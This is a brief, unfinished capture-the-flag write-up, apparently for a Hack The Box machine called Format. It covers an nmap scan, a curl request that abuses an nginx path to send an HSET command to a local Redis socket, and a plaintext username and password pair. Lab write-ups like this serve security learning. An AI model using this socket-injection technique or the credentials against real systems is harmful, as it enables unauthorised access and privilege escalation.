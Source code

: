 # #1 Introduction
<img width="693" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/824447ee-ce67-4ed7-8a3c-6fec9beb1c37">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx format.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- format.htb
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http    nginx 1.18.0
3000/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)


port 80 : web app named microblog
port 3000 : gitea 1.17.3
-> user : cooper

bulletproof seems to be vulnerable
we can see a subdomaine sunny that have edit

curl -X HSET http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:mateor%20pro%20true%20/HTTP/1.1 

redis-cli -s /var/run/redis/redis.sock
cooper:zooperdoopercooper


